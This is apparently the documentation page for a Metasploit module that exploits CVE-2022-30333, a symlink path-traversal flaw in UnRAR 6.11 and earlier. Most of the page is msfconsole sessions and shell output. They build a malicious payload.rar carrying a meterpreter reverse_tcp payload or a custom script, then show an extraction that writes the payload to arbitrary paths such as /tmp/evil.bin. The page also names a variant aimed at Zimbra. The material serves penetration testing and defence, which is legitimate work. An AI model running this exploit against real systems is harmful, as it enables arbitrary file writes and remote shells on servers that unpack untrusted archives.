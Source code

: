 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier). You can get the vulnerable versions here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

This module creates a generic RAR file containing whatever `PAYLOAD` the user configured.

## Verification Steps

To generate the .rar file:

```
msf > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../tmp/docstest.txt
TARGET_PATH => ../../../../../../tmp/docstest.txt
msf exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../tmp/docstest.txt
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

Then, with a vulnerable versions of UnRAR (see the link above), extract it:

```
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ./unrar x -o+ ~/.msf4/local/payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal

Extracting from /home/ron/.msf4/local/payload.rar

Extracting  hhgdzigwkgv                                               OK 
Extracting  hhgdzigwkgv                                               OK 
All OK
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ls -l hhgdzigwkgv 
lrwxrwxrwx. 1 ron games 34 Jul 27 13:04 hhgdzigwkgv -> ../../../../../../tmp/docstest.txt

ron@fedora ~/shared/analysis/zimbra-unrar/rar $ file /tmp/docstest.txt
/tmp/docstest.txt: data
```

## Options

### `FILENAME`

The filename to generate, typically it's `payload.rar` and that works fine.

### `TARGET_PATH`

The path, including traversal characters (`../`) and the filename. The slashes' direction doesn't matter, that gets fixed in the module.

### `SYMLINK_FILENAME`

If set, use a specific filename for the symlink inside the RAR file - default (random) is almost always best.

### `CUSTOM_PAYLOAD`

If set, instead of encoding the configured payload, encode data from the given filename.

## Scenarios

This is a pretty generic exploit that can be used against any software with a bad version of UnRAR.

We also built a specific exploit for Zimbra - `exploit/linux/http/zimbra_unrar_cve_2022_30333`.

### Built-in payload

```
msf > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../../../tmp/evil.bin
TARGET_PATH => ../../../../../../../../tmp/evil.bin
msf exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../../../tmp/evil.bin
[*] Encoding configured payload
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

Then:

```
ron@fedora ~/.msf4/local $ ~/tools/unrar/unrar x -o+ ./payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from ./payload.rar

Extracting  xkmcxqotn                                                 OK 
Extracting  xkmcxqotn                                                 OK 
All OK
ron@fedora ~/.msf4/local $ file /tmp/evil.bin
/tmp/evil.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

### Custom payload

```
msf > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../../../tmp/evil.sh
TARGET_PATH => ../../../../../../../../tmp/evil.sh
msf exploit(linux/fileformat/unrar_cve_2022_30333) > echo -ne "#!/bin/bash\nwhoami\n" > /tmp/test.sh
[*] exec: echo -ne "#!/bin/bash\nwhoami\n" > /tmp/test.sh
msf exploit(linux/fileformat/unrar_cve_2022_30333) > set CUSTOM_PAYLOAD /tmp/test.sh
CUSTOM_PAYLOAD => /tmp/test.sh
```

Then:

```
ron@fedora ~/.msf4/local $ ~/tools/unrar/unrar x -o+ ./payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from ./payload.rar

Extracting  jwbhkf                                                    OK 
Extracting  jwbhkf                                                    OK 
All OK
ron@fedora ~/.msf4/local $ bash /tmp/evil.sh
ron
/tmp/evil.sh: line 4: $'\177P\336': command not found
[...]
```

(The errors at the bottom are because we append random junk to the end for padding)


